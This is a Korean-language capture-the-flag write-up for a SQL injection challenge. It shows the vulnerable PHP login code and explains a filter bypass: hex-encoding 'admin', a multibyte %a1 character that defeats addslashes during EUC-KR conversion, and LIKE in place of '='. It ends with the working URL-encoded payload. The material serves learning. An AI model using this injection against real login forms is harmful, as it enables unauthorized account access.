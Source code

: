 # sql filtering bypass

단순 id, pw 로그인 폼이 있다. 
소스코드는 아래와 같다. 

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 45</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get>
id : <input name=id value=guest><br>
pw : <input name=pw value=guest><br>
<input type=submit>
</form>
<hr><a href=./?view_source=1>view-source</a><hr>
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']);
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      echo "hi {$result['id']}";
      if($result['id'] == "admin") solve(45);
    }
    else echo("Wrong");
  }
?>
</body>
</html>
```

id부분에 `admin' or 1#` 을 삽입하면 된다. 
하지만, `admin`이라는 문자가 `preg_match` 함수로 필터링이 되고, 
`addslashes` 함수가 `'` 따옴표 앞에 `\` 요 이스케이프를 자동으로 붙이면서 쓸 수가 없다. 
그리고 `=`도 못쓴다.

이걸 우회해야 한다.
일단 `admin` 문자 우회의 방법은 다음과 같다. 

```sql
-- char()함수
char(97,100,109,105,110)

-- 16진수로 인코딩(앞에 0x)
0x61646d696e

-- 2진수로 인코딩(앞에 0b)
0b0110000101100100011011010110100101101110
```

다음으로 `'` 를 삽입하기 위한 방법이다. 
`addslashes` 함수는 따옴표에 `\` 를 추가한다. 
따옴표앞에 멀티바이트 인코딩으로 인식될 수 있는 문자를 넣으면, 

```
문자\'
```

추후 `mb_convert_encoding` 함수에서

```
문자\ => 이걸 하나의 문자로 인식(문자가 멀티바이트로 인식되서 \까지 읽어버림)
```

그래서 `'` 가 이스케이프 없이 쓰일 수 있다. 

그럼 이 멀티바이트란 뭔가?

먼저 문자인코딩이란, 문자를 컴퓨터의 신호로 연결시킨것. 
그걸 위해서 문자마다 특정 숫자를 대응시켜서 '이 숫자가 무슨 문자인지를' 컴퓨터가 알도록 하는 방법이다. 

아스키는 1바이트, 128개의 문자를 연결시켜 인코딩을 한다.
utf-8 인코딩은 아스키와 달리 크기가 유동적이다. 
1바이트에서 4바이트까지 사용한다.  

2바이트로 쓰는게 멀티바이트이다. 16진수 범위는  0x80 ~ 0x7FF (128~2047까지)
[url에서 utf-8](https://namu.wiki/w/UTF-8#s-5)
[코드표](https://www.utf8-chartable.de/)

 `%a1~%fe` 까지가 2 byte로 인식된다. 

`=` 을 못 넣으니까 like를 이용한다. [설명](https://coding-factory.tistory.com/114)
그리고 인풋에 넣으면 띄어쓰기가 +로 변해서 안된다. 
URL에 직접삽입을 한다. 
그래서 먼저 `%a1'`이걸로 기존의 id쿼리를 닫는다. => `id='%a1'`
그리고 이어서 `or id=char(97,100,109,105,110)` 를 넣는다. 

```
-- 넣을값
id=%a1' or id like 0x61646d696e#

--진짜 넣을때는 url 인코딩해서 넣는다.
id=%a1%27%20or%20id%20like%200x61646d696e%23
```

그럼 해결이 된다. 

> admin처럼 특정 문자열의 필터링을 피하는 것은 쉽지만, 
> 따옴표, = 같은 문자를 우회하는 것은 까다로웠다. 
>
> 이번 문제를 풀면서 utf-8 인코딩의 방식에 대해서도 더 알게 되었고, 
> =을 대체할 수 있는 like 같은 SQL 구문에 대해서도 새로 배웠다. 
>
> 아직 url 인코딩, utf-8 인코딩의 방식에 대해서 구체적으로는 이해가 잘 안된다. 
> 앞으로 더 많은 문제를 풀면서 배우고 정리해나갔으면 좋겠다.